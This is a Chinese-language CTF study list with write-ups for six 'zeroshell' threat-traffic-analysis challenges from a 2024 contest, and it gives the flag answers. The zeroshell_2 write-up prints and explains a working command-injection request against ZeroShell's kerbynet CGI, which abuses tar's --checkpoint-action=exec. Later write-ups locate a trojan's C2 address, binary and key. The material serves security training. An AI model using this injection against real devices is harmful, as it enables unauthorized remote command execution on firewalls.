








# 2025 年 [04-11~04-16]  题单 by LimeCocoa

## 本周主题关键词

威胁检测与网络流量分析

## 本周题目

- [ ] 2024长城杯&CISCN-威胁流量分析-zeroshell_1 https://xj.edisec.net/challenges/104

- [ ] 2024长城杯&CISCN-威胁流量分析-zeroshell_2 https://xj.edisec.net/challenges/104

- [ ] 2024长城杯&CISCN-威胁流量分析-zeroshell_3 https://xj.edisec.net/challenges/104

- [ ] 2024长城杯&CISCN-威胁流量分析-zeroshell_4 https://xj.edisec.net/challenges/104

- [ ] 2024长城杯&CISCN-威胁流量分析-zeroshell_5 https://xj.edisec.net/challenges/104

下载链接：https://pan.baidu.com/s/1N58ui-5Ll4Zk7Ys4SUGFvw 提取码：GAME
解压密码：11b0526b-9cfb-4ac4-8a75-10ad9097b7ce

## 当堂题目

- [ ] 2024长城杯&CISCN-威胁流量分析-zeroshell_6 https://xj.edisec.net/challenges/104

## 题解

#### 2024长城杯&CISCN-威胁流量分析-zeroshell_1

题目描述

- 从数据包中找出攻击者利用漏洞开展攻击的会话(攻击者执行了一条命令)，写出该会话中设置的flag,结果提交形式:flag{xxxxxxxxx}

题解

- 发现是一个流量包，使用wireshark打开流量包，因为题目中**提到攻击者执行了一条命令，写出该会话中设置的flag**，所以我们直接追踪TCP流



最终在第243个流中发现攻击者执行了一条指令，其中flag在referer字段中，一眼base64，解码一下得到

flag{6C2E38DA-D8E4-8D84-4A4F-E2ABD07A1F3A}


#### 2024长城杯&CISCN-威胁流量分析-zeroshell_2

题目描述

- 通过漏洞利用获取设备控制权限，然后查找设备上的flag文件，提取flag文件内容，结果提交形式:flag{xxxxxxxxxx}

题解

我们分析一下第一问中得到的数据包

```
GET /cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='ps%20-ef'%0A' HTTP/1.1
```

这是一个 HTTP GET 请求，请求的 URL 结构如下：

- 目标路径：/cgi-bin/kerbynet
- 参数：
  - Action=x509view
  - Section=NoAuthREQ
  - User=（空）
  - x509type='...payload...'

**核心攻击点：x509type 参数中的 payload**

原始参数内容 URL 解码后如下：

```
x509type='
/etc/sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec='ps -ef'
'
```

这条命令是利用 tar 的副作用特性来执行命令的：

- tar -cf /dev/null /dev/null：

  - 这是一个无害的 tar 操作，把 /dev/null 打包成一个 tar 文件 /dev/null，效果是执行一次无害的打包操作，不生成任何文件，也不会报错。

- --checkpoint=1
  - 表示每处理一个文件后触发一次 checkpoint，默认 tar 不会执行其他命令，但加上这个就每处理一个文件打一个“检查点”。
  - 因为只处理了一个文件（/dev/null），所以只会执行一次 checkpoint。

- --checkpoint-action=exec='ps -ef'
  - exec='ps -ef' 的意思就是在打 checkpoint 时执行 ps -ef 命令。

那我们得到了上面的这些信息，不免想尝试一下我们可不可以执行任意命令。我们在浏览器访问上述网址并使用`burp suite`抓一下包



确实可以执行命令，那我们使用find命令搜索一下全局的文件

```bash
find / -type f -name "*flag*"
```



我们查看一下第一个文件的内容

```bash
cat /DB/_DB.001/flag
```



得到flag

flag{c6045425-6e6e-41d0-be09-95682a4f65c4}

#### 2024长城杯&CISCN-威胁流量分析-zeroshell_3

题目描述

- 找出受控机防火墙设备中驻留木马的外联域名或!P地址，结果提交形式:flag{xxxx}，如flag{www.abc.com} 或 fag{16.122.33.44}

题解

根据上一问我们已经获取了目标主机的"控制权"，现在既然可以执行命令，那我们可以直接执行`netstat -anpt`查看主机的网络连接情况

确实发现一个可疑IP



得到flag

flag{202.115.89.103}

#### 2024长城杯&CISCN-威胁流量分析-zeroshell_4

题目描述

- 请写出木马进程执行的本体文件的名称，结果提交形式:fag{xxxxx}，仅写文件名不加路径

题解

在上一问中我们通过`netstat -anpt`命令找到了可疑IP，并且也看见了对应进程的PID。

Ask ChatGPT：linux下如何通过进程查看运行文件本体，请给我多种方法？

- 方法一：通过 /proc/[pid]/exe 查看
  
  这是最直接也是最常用的方法。

  ```bash
  readlink -f /proc/<pid>/exe
  ```
  > - readlink 会解析符号链接。
  > - /proc/<pid>/exe 是进程的可执行文件的符号链接。

- 方法二：使用 ls -l 查看 /proc/[pid]/exe
  
  ```bash
  ls -l /proc/<pid>/exe
  ```

Linux系统上的/proc目录是一种文件系统，即proc文件系统。与其它常见的文件系统不同的是，/proc是一种伪文件系统（也即虚拟文件系统），存储的是当前内核运行状态的一系列特殊文件，用户可以通过这些文件查看有关系统硬件及当前正在运行进程的信息，甚至可以通过更改其中某些文件来改变内核的运行状态。 
- cmdline — 启动当前进程的完整命令，但僵尸进程目录中的此文件不包含任何信息；
- cwd — 指向进程当前的工作路径； 
- environ — 当前进程的环境变量列表，彼此间用空字符（NULL）隔开；变量用大写字母表示，其值用小写字母表示； 
- exe — 指向启动当前进程的可执行文件（完整路径）的符号链接，通过/proc/N/exe可以启动当前进程的一个拷贝； 



得到flag为

flag{.nginx}


#### 2024长城杯&CISCN-威胁流量分析-zeroshell_5

题目描述

- 请提取驻留的木马本体文件，通过逆向分析找出木马样本通信使用的加密密钥，结果提交形式:flag{xxxx}

题解

首先要获取木马文件，可以使用xxd将二进制文件转为十六进制输出，然后复制内容到本地

使用命令

```bash
xxd -p /tmp/.nginx
```



然后使用`010editor`创建一个Hex文件，使用`ctrl+shift+v`刚刚复制的内容粘贴到Hex文件中



我们先使用`strings`打印出文件中所有可读字符串，在IP的下面发现一段可疑字符串，尝试提交


flag{11223344qweasdzxc}

#### 2024长城杯&CISCN-威胁流量分析-zeroshell_6

根据第四问中获得的信息，我们知道`- cwd — 指向进程当前的工作路径； `，所以我们直接查看这个路径

```bash
ls -l /Database/var/register/system/startup/scripts/nat
```
或者通过读取environ文件中的环境变量，得到

```
CONSOLE=/dev/console
SCRIPT=./File
INIT_VERSION=sysvinit-2.85
PATH=/bin:/usr/bin:/sbin:/usr/sbin:/usr/local/bin:/usr/local/sbin:/usr/local/ssl/bin:/usr/local/bin:/usr/local/sbin:/usr/local/ssl/bin
RUNLEVEL=3
PWD=/var/register/system/startup/scripts/nat
PREVLEVEL=N
SHLVL=4
HOME=/
BOOT_IMAGE=/1/4.14.29-ZS/vmlinuz
_=/tmp/.nginx
```

| 变量名                                         | 含义                                                         |
| ---------------------------------------------- | ------------------------------------------------------------ |
| `CONSOLE=/dev/console`                         | 指定系统控制台设备，通常用于 early boot 或 init 阶段输出。   |
| `SCRIPT=./File`                                | 表示执行的脚本名为 `./File`，说明是运行当前目录下名为 `File` 的脚本。 |
| `INIT_VERSION=sysvinit-2.85`                   | 当前系统使用的是 sysvinit v2.85 初始化系统。                 |
| `PATH=...`                                     | 当前进程的环境变量 PATH，决定了查找可执行文件的路径顺序。    |
| `RUNLEVEL=3`                                   | 运行级别为 3，表示是命令行多用户模式（无图形界面）。         |
| `PWD=/var/register/system/startup/scripts/nat` | 当前工作目录。                                               |
| `PREVLEVEL=N`                                  | 上一个运行级别是 N（可能是初始状态）。                       |
| `SHLVL=4`                                      | Shell 嵌套层级为 4，说明这个进程在多个 shell 层中被启动，可能是脚本调用嵌套较多。 |
| `HOME=/`                                       | HOME 目录设置为 `/`，可能是系统用户或脚本自定义环境。        |
| `BOOT_IMAGE=/1/4.14.29-ZS/vmlinuz`             | 启动时加载的内核镜像路径。                                   |
| `_=/tmp/.nginx`                                | 这是 Linux 中 bash 会自动设置的变量 `_`，表示最后执行的命令或其路径。此处指向了 `/tmp/.nginx`。 |


其中也可以得到该进程的工作路径为`/var/register/system/startup/scripts/nat`，脚本名为 `./File`。

我们直接查看这个文件，确实是一个启动脚本，得到flag

flag{/var/register/system/startup/scripts/nat/File}